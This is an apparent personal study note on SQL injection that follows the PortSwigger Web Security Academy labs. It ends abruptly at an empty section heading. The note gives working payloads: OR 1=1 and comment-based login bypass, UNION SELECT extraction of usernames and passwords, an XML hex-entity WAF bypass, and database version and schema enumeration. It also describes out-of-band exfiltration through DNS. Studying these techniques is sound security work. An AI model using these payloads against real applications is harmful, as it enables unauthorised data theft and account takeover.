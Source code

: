 https://portswigger.net/web-security/sql-injection
5 / 16 labs

https://portswigger.net/web-security/sql-injection/cheat-sheet

## 1. Definition 
- allows an attacker to ==inject/modify sql commands in query== to access DB
## 2. Impact 
- Steal sensitive data and modify/delete data

## 3. Detecting SQLi

You can ==detect SQL injection manually using a systematic set of tests== against every entry point in the application ==(and check the app behavior, look for errors)==. To do this, you would typically submit:

- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- [OAST](https://portswigger.net/burp/application-security-testing/oast) payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.
##### 3. 1. SQL injection in different parts of the query

Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query (because you can append  '  to stop and inject command then -- to comment the rest )

other common locations where SQL injection arises are:

- In `UPDATE` statements, within the updated values or the `WHERE` clause.
- In `INSERT` statements, within the inserted values.
- In `SELECT` statements, within the table or column name.
- In `SELECT` statements, within the `ORDER BY` clause.

##### 3. 2. SQL injection in different context
==SQL injection with filter bypass(WAF) via XML encoding==
websites ==take input in JSON or XML format and use this to query the database== (not as normal query).
example
`<stockCheck> <productId>123</productId> <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId> </stockCheck>`

These different formats may provide different ways for you to [obfuscate attacks](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) like encoding

obfuscating your payload using [XML entities](https://portswigger.net/web-security/xxe/xml-entities). One way to do this is using the [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) extension

**Bypass the WAF**

1. As you're injecting into XML, try obfuscating your payload using [XML entities](https://portswigger.net/web-security/xxe/xml-entities). One way to do this is using the [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) extension. Just highlight your input, right-click, then select **Extensions > Hackvertor > Encode > dec_entities/hex_entities**.
2. `<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>`
https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding
## 4. Examples

1. Retrieving hidden data (by removing the where clause)

URL
`https://insecure-website.com/products?category=Gifts`

ACTUAL QUERY
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

inject on URL ==`category=Gifts'+OR+1=1--`== to retrieve all

-  single quote to end the where statement and append OR 1=1
- -- denotes comment the rest
- + is url encoding for space

2. Subverting(changing) App logic 
- Login bypass by adding '-- to end statement and comment rest
SELECT * FROM users WHERE username = 'administrator =='--== ' AND password = ''

3. Retrieved data from other DB
- by appending ==' UNION SELECT username, password FROM users--==

4. Blind SQL Injection 
- Executes query but app does ==not display results from db==

The following techniques can be used to exploit blind SQL injection vulnerabilities, depending on the nature of the vulnerability and the database involved:

- You can ==change the logic of the query to trigger a detectable difference== in the application's response depending on the truth of a single condition. This might involve injecting a new condition into some Boolean logic, or conditionally triggering an error such as a divide-by-zero.
- You can conditionally ==trigger a time delay in the processing of the query==. This enables you to infer the truth of the condition based on the time that the application takes to respond.
- You can ==trigger an out-of-band network interaction, using OAST techniques==. This technique is extremely powerful and works in situations where the other techniques do not. Often, you can directly exfiltrate data via the out-of-band channel. For example, you can place the data into a DNS lookup for a domain that you control.

5. Second-order SQL injection 
==First-order SQL injection (get input then process IMMEDIATELY)== occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way.

==Second-order SQL injection(get input, store then process in FUTURE)== occurs when the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability occurs at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into a SQL query in an unsafe way. For this reason, second-order SQL injection is also known as ==stored SQL injection==.





### 5. Attacks

5.1 EXAMINING DATABASES
Necessary to know the database they're using 

- The ==type and version== of the database software.
- The tables and columns that the database contains.

5.1.1 QUERYING TYPE AND VERSION
inject using union
ex. `' UNION SELECT @@version--`


|Database type        |          Query                 |
|Microsoft, MySQL   |`SELECT @@version`| does not work, see other payload
|Oracle                     |`SELECT * FROM v$version`| " * " does not work, see other payload
|PostgreSQL             |`SELECT version()`|

1. Oracle
On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

==@TTACK==
ON CATEGORY SELECT APPEND: (include NULL)
==PAYLOAD==`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

2. Mysql and Microsoft 
==PAYLOAD== `'+UNION+SELECT+@@version,+NULL#`


5.1.2 LISTING DB CONTENTS (table list)
Most db has "information schema" table except oracle

View tables :
- general 
`SELECT * FROM information_schema.tables`
- oracle
`SELECT * FROM all_tables`

Check Table Schema
- general
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- oracle
`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

==@TTACK==
ON CATEGORY SELECT, APPEND: (include NULL)

==PAYLOAD== 








5.2 UNION ATTACKS
